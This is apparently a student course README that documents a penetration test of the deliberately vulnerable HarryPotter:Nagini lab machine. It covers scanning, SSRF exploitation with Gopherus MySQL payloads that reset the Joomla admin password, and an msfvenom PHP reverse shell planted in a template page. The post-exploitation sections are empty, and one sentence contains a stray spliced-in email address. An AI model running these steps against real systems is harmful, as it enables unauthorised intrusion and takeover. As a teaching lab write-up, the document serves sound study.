




# PenetrationTesting-HarryPotter:Nagini

This repository is dedicated to the "**Penetration Testing & Ethical Hacking**" course project. The project consists of the penetration testing process of "**HarryPotter:Nagini**", a virtual machine vulnerable by design. Originally, this VM was developed for a CTF challenge, but it can be used in other ways, for example as the asset of a penetration testing process.

At the end of the pentration testing process, the following documents were produced:

- Penetration Testing Report;
- Penetration Testing Narrative;
- Digital Presentation.

You can consult these documents (in italian) in the ```docs``` folder.

# Table of Contents

- [PenetrationTesting-HarryPotter:Nagini](#penetrationtesting-harrypotternagini)
- [Table of Contents](#table-of-contents)
- [1. Introduction](#1-introduction)
- [2. Tools and Instruments](#2-tools-and-instruments)
  - [Kali Linux - Attacking Machine](#kali-linux---attacking-machine)
  - [HarryPotter:Nagini - Target Machine](#harrypotternagini---target-machine)
  - [Virtual Box - Virtual Environment](#virtual-box---virtual-environment)
- [3. Target Discovery](#3-target-discovery)
  - [Finding the IP address](#finding-the-ip-address)
  - [Reachability of the target machine](#reachability-of-the-target-machine)
  - [OS Fingerprinting](#os-fingerprinting)
- [4. Enumerating Target \& Port Scanning](#4-enumerating-target--port-scanning)
  - [TCP Port Scanning](#tcp-port-scanning)
  - [UDP Port Scanning](#udp-port-scanning)
- [5. Vulnerability Mapping](#5-vulnerability-mapping)
  - [Automated Vulnerability Analysis](#automated-vulnerability-analysis)
    - [Nessus](#nessus)
    - [OpenVAS](#openvas)
    - [Summary](#summary)
  - [Web Vulnerability Analysis](#web-vulnerability-analysis)
    - [Information Leakage - gobuster](#information-leakage---gobuster)
    - [Information Leakage - JoomScan](#information-leakage---joomscan)
- [6. Target Exploitation](#6-target-exploitation)
  - [Database Exploitation](#database-exploitation)
    - [Remote Code Execution - Gopherus](#remote-code-execution---gopherus)
  - [Client Side Exploitation](#client-side-exploitation)
- [7. Post-Exploitation](#7-post-exploitation)
  - [Local Exploit](#local-exploit)
  - [Privilege Escalation](#privilege-escalation)
    - [Privilege Escalation - snape user](#privilege-escalation---snape-user)
    - [Privilege Escalation - hermoine user](#privilege-escalation---hermoine-user)
    - [Privilege Escalation - root user](#privilege-escalation---root-user)
  - [Mantaining Access](#mantaining-access)
- [8. Conclusions](#8-conclusions)
- [9. References](#9-references)

# 1. Introduction

The process of **Penetration Testing** allows to analyze and evaluate the security level of a computer system or network (in general of an asset) by emulating what a **Black Hat Hacker** might do.

This paper discusses all the steps related to the penetration testing activity performed on the HarryPotter:Nagini machine. In particularly, the entire activity is divided in the following steps:

- **Target Scoping**;
- **Information Gathering**;
- **Target Discovery**;
- **Enumerating Target & Port Scanning**;
- **Vulnerability Mapping**;
- **Post Exploitation**.

These steps are part of the **Framework Generale per il Penetration Testing** (**FGPT**). In our context, we can skip the "**Target Scoping**" phase because it's required a client that commission the penetration testing activity. In addition, it is also possible to skip the "**Information Gathering**" phase because the asset is a virtual machine, which means that the only information we can gather is that provided by the developer, but this has not released anything.

# 2. Tools and Instruments

This section will describe the tools used, more specifically the attacking machine, the target machine and the virtual environment.

## Kali Linux - Attacking Machine

The **Kali Linux** (64-bit) operating system, version 2023.1, is used as the attack machine. It is a Debian-based GNU/Linux distribution designed for digital forensics and cybersecurity, particularly for penetration testing.

## HarryPotter:Nagini - Target Machine

 The **HarryPotter:Nagini** machine is used as the target machine. This is a virtual machine about which we are not given any information. It can be downloaded at the following link: <https://www.vulnhub.com/entry/harrypotter-nagini,689/>,.

## Virtual Box - Virtual Environment

The **Oracle VM Virtual Box** software is used for the virtualization. A virtual network with NAT (called PTEH) was created to connect the two virtual machine.

# 3. Target Discovery

The goal of this phase is to find the target machine in the network and collect the first useful information for the next steps.

## Finding the IP address

First, we try to find the target machine and get its IP address. The ***netdiscover*** tool can be used for this purpose, because we are in a local network and can define the range of IP addresses in which to search. Therefore, we run the command:

    netdiscover -r 10.0.2.0/24

- ```-r``` : range of IP addresses in which to search

<p align="center">
    
</p>

The first three addresses are used by Virtual Box to handle NAT network virtualization. Therefore, we can assume by exclusion that **10.0.2.4** is the address of the Nagini virtual machine.

## Reachability of the target machine

The ***ping*** command can be used to check the reachability of the target machine:

<p align="center">
    
</p>

We can see that the target machine can be reached.

## OS Fingerprinting

Once we have discovered the IP address of the target machine, we can proceed with an **active OS Fingerprinting** procedure to obtain information regarding the target machine's operating system. The ***nmap*** tool can be used. Therefore, we run the command:

    nmap -O 10.0.2.4

- `-O` : enables OS detection.

<p align="center">
    
</p>

We discover that a Linux-based operating system, whose version is between 4.15 and 5.6, is installed on the Nagini target machine.

# 4. Enumerating Target & Port Scanning

Once we have discovered the IP address of the target machine and verified its reachability, we can proceed to individuate open ports (TCP and UDP) and services offered (with related version) by the target machine Nagini.

## TCP Port Scanning

The ***netdiscover*** tool can be used for this purpose. More precisely, we execute the command:

    nmap -sV -T5 -p- 10.0.2.4 -oX nmap_tcp_scan.xml

- `-sV` : allows to obtain as much information as possibile about the services provided by the ports;
- `-T5` : allows for maximum scanning speed;
- `-p-` : allows to scan all the 65535 ports;
- `-oX` : the output is a XML file.

Since the output of the previous command is a XML file, we prooced to convert it to HTML format:

    xsltproc nmap_tcp_scan.xml -o nmap_tcp_scan.html

The following is a table of open ports, identified by nmap, with the services offered and their version. Ports not shown in the table are closed.

<p align="center">
    
</p>

## UDP Port Scanning

Next, we scan the UDP ports. The ***unicornscan*** tool can be used for this purpose because is faster then ***nmap***. The ***unicornscan*** tool isn't installed in Kali, therefore you need to install it with the following command:

    sudo apt install unicornscan

Once ***unicornscan*** is installed, we can proceed to scan the UDP ports with the command:

    unicornscan -mU -Iv 10.0.2.4:1-65535 -r 5000

- `-mU` : indicates that the scanning mode is "UDP scanning";
- `-Iv` : enables printing of results;
- `-r` : indicates the rate of packets sent per second.

<p align="center">
    
</p>

From the output of the previous command, you can see that there are no open UDP ports or that they are filtered.

# 5. Vulnerability Mapping

Once we have discovered the operating system and the services that the target machine Nagini provides, we need to understand whether or not the exposed services or the operating system have vulnerabilities that can be exploited.

## Automated Vulnerability Analysis

First, we proceed with an automated vulnerability analysis. For this purpose, the two main tools used are **Nessus** and **OpenVas**. For this project, both were used so as to combine their results.

### Nessus

**Nessus** is a widely used vulnerability scanning tool in cybersecurity that allows scans to be performed on individual target machines or entire portions of a network. As part of this project, a "**Basic Network Scan**" was created and performed on the target machine Nagini. The results of that scan are shown below:

<p align="center">
    
</p>

We can notice that 30 vulnerabilities are discovered: 5 critical-level, one high-level and 24 info-level. The severity level, CVSS 3.0 score, and vulnerability name are shown for each vulnerability. These results are combined with those of OpenVas.

### OpenVAS

**OpenVas** is a vulnerability mapping framework that allows scanning of one or more machines to detect detailed information. As part of this project, a "**OpenVAS Default Scan**" was created and executed on the target machine Nagini:

<p align="center">
    
</p>

The scan results are shown below:

<p align="center">
    
</p>

Nine vulnerabilities were detected, including 3 high-level, 4 medium-level, and 2 low-level vulnerabilities. For each vulnerability the name, mitigation type and severity level according to CVSS 2.0 is given. In reality the vulnerabilities found are greater, in fact for many of them it is written "Multiple Vulnerabilities."

Importantly, several vulnerabilities were found concerning **Joomla!**, which is a content management system for building and managing web pages. It is probably installed on the target machine Nagini.

In addition, we can see that different vulnerabilities were detected than those detected by Nessus. So it was important to use both tools so as to combine the results.

### Summary

The following graphics, which can be found in the "Finding Summary" section of the Penetration Testing Report, summarize the results obtained:

<p align="center">
    
</p>

<p align="center">
    
</p>

## Web Vulnerability Analysis

Since the Nagini target computer has a web server and exposes web services, you can proceed to discover potential web vulnerabilities. For this purpose, it is necessary to use several web vulnerability analysis tools.

### Information Leakage - gobuster

We check whether there has been an exposure of critical and/or sensitive information about a web application and/or web server. This type of vulnerability can be detected and exploited through web crawling and bruteforce directory tools. For example, it is possible to use the ***gobuster*** tool. The ***gobuster*** tool isn't installed in Kali, but it can be installed with the following command:

    sudo apt install gobuster

Once ***gobuster*** is installed, we can proceed with the following command:

    gobuster dir -u http://10.0.2.4 -x html,txt,php,bak -w /usr/share/wordlists/dirb/common.txt

- `dir` : standard directory brute-forcing mode;
- `-u` : URL where scanning is performed;
- `-x` : the file extensions of interest;
- `-w` : wordlist to use.

<p align="center">
    
</p>
From the output of the previous command we can see that we have access to the index.html page, the notes.txt file, and the presence of the /joomla directory.

The index.html page contains no useful information. In fact, its content is the following:

<p align="center">
    
</p>

Instead, the content of the notes.txt file is the following:

<p align="center">
    
</p>
It appears that the web server uses the HTTP3 protocol, which is currently not supported by Firefox. The following guide <https://github.com/cloudflare/quiche> was followed to install ***quiche***, which is an implementation of the QUIC and HTTP3 transport protocol. In this way, the web server can be contacted using the HTTP3 protocol. In fact, once quiche is installed, the web server is clomifox856@mahmul.comontacted using the HTTP3 protocol with the command:

    /quiche/target/debug/examples/http3-client https:10.0.2.4

This is the result:

<p align="center">
    
</p>

The following information is obtained:

1. A **configuration backup file** (**.bak**) exists in the web server and is readable by anyone.
2. The presence of an **/internalResourceFeTcher.php** page. It wasn't discovered by ***gobuster*** and its content is the following:

<p align="center">
    
</p>

This is a page for retrieving resources specified within the form. Through this page it is possible to cause the web server to make requests HTTP. In fact, if we try to enter within the form "10.0.2.4" the main page is shown:

<p align="center">
    
</p>

In this case, a **Server-Side Request Forgery** (**SSRF**) vulnerability is present.

### Information Leakage - JoomScan

Returning to the output of the gobuster command, there is a **/joomla** directory. This confirms that **Joomla** is installed on the Nagini machine. In fact, it is possibile to visualize the following page at <http://10.0.2.4/joomla/>:

<p align="center">
    
</p>

The ***JoomScan*** tool can be used to discover vulnerability and missconfiguration related to the installed Joomla CMS version. This tool isn't installed on Kali, but can be installed with the following command:

    sudo apt install joomscan

Once ***JoomScan*** is installed, we can proceed with the following command:

    joomscan -u http://10.0.2.4/joomla 

A partial output with useful information is shown below:

<p align="center">
    
</p>

A **configuration.php.bak** file was found. This is a configuration backup file that can be read by anyone. Therefore, let's download it:

    wget http://10.0.2.4/joomla/configuration.php.bak

Let's show its content:

    cat configuration.php.bak

A partial output with useful information is shown below:

<p align="center">
    
</p>

We find that there is a **goblin** user, which is not password protected and can access to a MySQL database called **joomla**.

In addition, an administrator login page was found, with ***JoomScan*** tool, at <http://10.0.2.4/>:

<p align="center">
    
</p>

# 6. Target Exploitation

The goal of this phase is to exploit the vulnerabilities discovered during the previous Vulnerability Mapping phase in order to gain access to the target machine, derive sensitive information, and/or gain full control of the target machine.

## Database Exploitation

From the Vulnerability Mapping phase, we discovered that the Nagini target machine is affected by a **Server-Side Request Forgery** (**SSRF**) vulnerability because through the **/internalResourceFeTcher.php** page it's possible to cause the web server to make HTTP requests to arbitrary domains. Let's try to exploit this  vulnerability.

If we enter a string like ```file://path_to_file``` inside the form, the web server should show us the contents of the file on the screen. For example, if we enter ```file:///etc/passwd``` this is what we get:

<p align="center">
    
</p>

We get information about all user accounts found within the server. Unfortunately, if we enter ```file:///etc/shadow``` in the form we get nothing back, probably the account associated with the web server doesn't have read permissions.

### Remote Code Execution - Gopherus

Since we know that there is **Server-Side Request Forgery** (**SSRF**), we can use the Gopherus tool, which can be downloaded from the following repository <https://github.com/tarunkant/Gopherus>. This tool can generate a payload to exploit an SSRF vulnerability so that **Remote Code Execution** (**RCE**) can be performed. In the case of a MySQL database, the tool works only if the user who has access to the database is not protected by any password, but this is exactly our case. To run it we type the command:

    gopherus -exploit mysql

At this point we need to provide the username of the user who has access to the database and the SQL code we want to run. In output we will be returned the payload.

Since we know that there is a database called "joomla", let's try to generate the payload for executing the query:

```sql
USE joomla; SHOW tables;
```

<p align="center">
    
</p>

Next, we insert the generated payload into the form of the /internalResourceFeTcher.php page, to force the query execution and get the database tables:

<p align="center">
    
</p>

We find that a joomla_user table exists. At this point we re-run the gopherus tool and generate the payload for executing the query:

```sql
USE joomla; SELECT * FROM joomla_users;
```

In this way we obtain the joomla_users table content.

<p align="center">
    
</p>

Again, we insert the generated payload into the 'form':

<p align="center">
    
</p>

We find that each user has e-mail address as a key attribute and a password attribute. In addition, we find that the admin's e-mail is ```site_admin@nagini.hogwarts```. At this point, we re-run the gopherus tool and generate the payload for executing the query:

```sql
USE joomla; UPDATE joomla_users
SET password='21232f297a57a5a743894a0e4a801fc3'  
WHERE email='site_admin@nagini.hogwarts';
```

in order to change the administrator's password. In the previous command, the string "21232f297a57a5a743894a0e4a801fc3" is the MD5 of the string "admin". MD5 was used because it's supported by MySQL in Joomla.

<p align="center">
    
</p>

Again, we insert the generated payload into the 'form':

<p align="center">
    
</p>

We were able to change the administrator's password.

> **Remarks**: after inserting the payload into the form, you need to refresh the web page several times, otherwise nothing will be displayed.

Since we have changed the administrator's password, we go to the administrator login page and try to authenticate with the new credentials:

- **username**: site_admin
- **passowrd**: admin

<p align="center">
    
</p>

We were able to authenticate as  administrator.

## Client Side Exploitation

Since we are authenticated as an administrator, we can create new web pages and edit existing ones. Therefore, we can hide a **reverse shell** payload into a web page. In this way, whenever it will be requested, the web server will establish a connection with attacking machine, which will be listening on a certain port.

The tool **msfvenom** can be used to generate a **reverse shell php** payload. For this purpose, we execute the following command:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw

- ```LHOST``` : is the IP address of the host to establish the connection with, i.e. attacking machine IP address;
- ```LPORT``` : is the port on which to establish the connection, i.e. the port on which the attacking machine will be listening.

<p align="center">
    
</p>

At this point we select, from the administrator's homepage, the ```Templates``` menu, then select the ```protostar``` template and edit the ```error.php``` error page by inserting the payload generated earlier:

<p align="center">
    
</p>

Next, we start the metasploit console on the attacking machine:

<p align="center">
    
</p>

Let's configure it to listen on port 4444 while waiting for the connection from the target machine to establish the reverse shell.

<p align="center">
    
</p>

Through the browser we make a malformed request to retrieve the error page. For example, we can visit the url ```http://10.0.2.4/joomla/index.php/<>```.

<p align="center">
    
</p>

We were able to obtain a meterpreter shell on the target machine.

# 7. Post-Exploitation

## Local Exploit

## Privilege Escalation

### Privilege Escalation - snape user

### Privilege Escalation - hermoine user

### Privilege Escalation - root user

## Mantaining Access

# 8. Conclusions

# 9. References

1. **HarryPotter:Nagini** <https://www.vulnhub.com/entry/harrypotter-nagini,689/>
2. **Gobuster** <https://www.kali.org/tools/gobuster/>
3. **Quiche** <https://github.com/cloudflare/quiche#building>
4. **Joomla** <https://www.joomla.org/>
5. **Gopherus Repository** <https://github.com/tarunkant/Gopherus>
6. **Gopherus Blog** <https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/>
7. **Firefox Decrypt** <https://github.com/unode/firefox_decrypt>
